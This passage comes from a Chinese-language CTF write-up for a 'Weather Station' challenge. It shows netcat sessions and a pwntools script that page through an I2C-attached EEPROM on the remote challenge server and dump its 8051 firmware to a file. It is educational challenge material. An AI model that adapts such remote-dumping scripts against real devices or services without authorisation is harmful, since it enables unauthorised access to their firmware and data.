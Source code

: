 ```c
➜  nc weather.2022.ctfcompetition.com 1337
== proof-of-work: disabled ==
Weather Station
? r 101153 64
i2c status: transaction completed / ready
2 0 6 2 4 228 117 129 48 18 8 134 229 130 96 3
2 0 3 121 0 233 68 0 96 27 122 0 144 10 2 120
1 117 160 2 228 147 242 163 8 184 0 2 5 160 217 244
218 242 117 160 255 228 120 255 246 216 253 120 0 232 68 0 
```

即EEPROM也确实挂接到8051的I2C控制器上了，因此我们可以尝试读写EEPROM！

### 读EEPROM

不过通过r命令最多一次只能读64字节，根据硬件手册这应该是EEPROM的一页，目标EEPROM总共64页，所以需要切换页，通过尝试发现，切换页的方式为通过w命令：

```c
w 101153 1 page
```

例如首先读第0页的前四字节：

```c
➜  nc weather.2022.ctfcompetition.com 1337
? w 101153 1 0
i2c status: transaction completed / ready
? r 101153 4
i2c status: transaction completed / ready
2 0 6 2 
-end
```

然后切换为第1页，读前四字节，可读到与之前不同的结果：

```c
? w 101153 1 1
i2c status: transaction completed / ready
?  r 101153 4
i2c status: transaction completed / ready
96 10 121 1 
```

利用此方法，并将读取到的数值转换为对应字节，即可dump远程的固件：

```python
from pwn import *

def dump():
    f = open('firmware.bin','wb')
    io = remote("weather.2022.ctfcompetition.com",1337)
    for i in range(64):
        print("[+] page: %s" % str(i))
        io.sendlineafter(b'?',("w 101153 1 %s" % str(i)).encode())
        io.sendlineafter(b'?',b"r 101153 64")
        a = io.recvuntil(b"?")[43:-8]
        a = a.replace(b"\n",b" ")
        a = a.decode('utf-8').split(' ')
        print(a)
        assert(len(a)==64)
        for j in a:
            f.write(int(j,10).to_bytes(1,'little'))

dump()
```
